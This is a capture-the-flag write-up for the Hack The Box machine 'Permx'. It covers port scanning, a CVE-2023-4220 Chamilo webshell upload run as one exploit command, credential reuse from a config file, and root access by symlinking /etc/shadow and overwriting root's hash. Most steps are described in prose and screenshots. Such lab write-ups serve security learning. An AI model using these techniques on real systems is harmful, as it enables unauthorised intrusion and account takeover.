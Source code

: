 ```yaml
---
date: 2024-12-15
# description: ""
# image: ""
lastmod: 2024-12-15
showTableOfContents: false
tags: ["HTB","easy"]
title: "HTB Permx"
type: "post"
---
```



# Permx walkthrough
**OS**: Linux, **Difficulty**: Easy


## Enumeration


Ports scan: ```nmap -p- -sCV 10.10.11.23```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to fer
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


There's no available exploit for this version of Openssh, and passwordless connexions are not possible.\
The http server redirects to `permx.htb/`, so i added `10.10.11.23 permx.htb` to `/etc/hosts`: ``` echo "10.10.11.23 permx.htb" | sudo tee -a /etc/hosts"```.

The website "permx.htb" isn't interesting in itself, so i enumerated potential subdomains:

![subdom_enum](images/permx-walk/Screenshot-2024-10-04-231033.png)



So, "lms.permx.htb" gives to a Chamilo login portal:

![login](/Qdiv7/images/permx-walk/Screenshot-2024-10-04-231601.png)
I tried injecting some characters to get a SQL injection, but no result found. And then, i searched for a potential CVE in 'chamilo', and just like that, i found CVE-2023-4220 and [its exploit on github](https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit), which allows us to upload a `.php` webshell.





## Exploitation

![webshell](/Qdiv7/images/permx-walk/Screenshot-2024-10-04-235544.png)
After uploading the webshell file, i've setup a local simple webserver and queried it from the boxe's host using the webshell, for the sake of checking its usability.

![server](/Qdiv7/images/permx-walk/Screenshot-2024-10-05-001412.png)

And just like that, i got a `www-data` shell with the command: `./CVE-2023-4220.sh -f webshell.php -h http://10.10.11.23 -p 5555` 

![shell](/Qdiv7/images/permx-walk/Screenshot-2024-10-05-021703.png)


From there, i found a username 'mtz',and i enumerated all the possible vectors to obtain a privilege escalation, but nothing interesting. But after some reseach on chamilo, i found that the configuration file in `app/config/configuration` may contain interesting information:

![db](/Qdiv7/images/permx-walk/Screenshot-2024-10-05-142548.png)






## Shell as mtz

At first, i went through, what might have been, a dead end, by trying to query the DB and gain admin credentials, so i wasted a lot of time there; until i decided to try the credentials i have with ssh on the user 'mtz'.

![db](/Qdiv7/images/permx-walk/Screenshot-2024-10-05-193120.png)






## Shell as root

![sudo](/Qdiv7/images/permx-walk/Screenshot-2024-10-05-193250.png)

The first idea i got, was some kind of bash command injection, and i wasted some time and energy there. Then, i tried to change permissions for important files, so i chose `/etc/shadow`, by creating a link to it in `/home/mtz`.

![sudo](/Qdiv7/images/permx-walk/Screenshot-2024-10-06-023812.png)

With this, i granted the user `mtz` read and write permissions on `/etc/shadow`. The idea is to chose a password that i know, then create its hash, and copy/paste this hash in `/etc/shadow` for the user `root` by replacing the original hash.

![shadow](/Qdiv7/images/permx-walk/Screenshot-2024-10-06-032807.png)

And with this generated hash from the password `sekkio123`, i logged into `root`.

![root](/Qdiv7/images/permx-walk/Screenshot-2024-10-06-140309.png)
